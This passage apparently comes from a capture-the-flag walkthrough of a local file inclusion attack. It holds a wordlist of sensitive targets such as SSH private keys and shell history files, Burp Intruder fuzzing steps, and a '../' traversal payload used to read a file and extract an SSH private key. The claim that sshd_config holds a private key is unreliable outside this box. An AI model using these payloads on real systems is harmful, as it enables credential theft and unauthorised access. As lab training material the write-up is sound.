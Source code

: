```md
/var/www/log/error_log
/var/www/logs/access_log
/var/www/logs/error_log
/var/www/logs/access.log
/var/www/logs/error.log
~/.atfp_history
~/.bash_history
~/.bash_logout
~/.bash_profile
~/.bashrc
~/.gtkrc
~/.login
~/.logout
~/.mysql_history
~/.nano_history
~/.php_history
~/.profile
~/.ssh/authorized_keys
~/.ssh/id_dsa
~/.ssh/id_dsa.pub
~/.ssh/id_rsa
~/.ssh/id_rsa.pub
~/.ssh/identity
~/.ssh/identity.pub
~/.viminfo
~/.wm_style
~/.Xdefaults
~/.xinitrc
~/.Xresources
~/.xsession
```

Now, let's fireup the burp and let it intercept the request and send the request to intruder where we need to add wrap around "/etc/passwd" in order for our payload to get work,

![image](https://user-images.githubusercontent.com/67465230/186944651-ed45217f-766c-444d-b3dc-b04ed809908b.png)

Starting the attack and arranging the result according to length in decreasing order,

![image](https://user-images.githubusercontent.com/67465230/186944731-43b5fc6b-d110-4a73-b5bb-252c1e0fe436.png)

the **/etc/ssh/sshd_config** file seems interesting as it contains id_rsa key.

We can now navigate to the path and view the key itself,

```
?page=../../../../../../../../etc/ssh/sshd_config
```

![image](https://user-images.githubusercontent.com/67465230/186946031-bd586df3-61e5-4a8f-b562-f8e324a86413.png)

We have to view the source code of the key, copy it and paste it into id_rsa key.

Remove all comments (#) sign and then change the mode, `chmod 600 id_rsa`
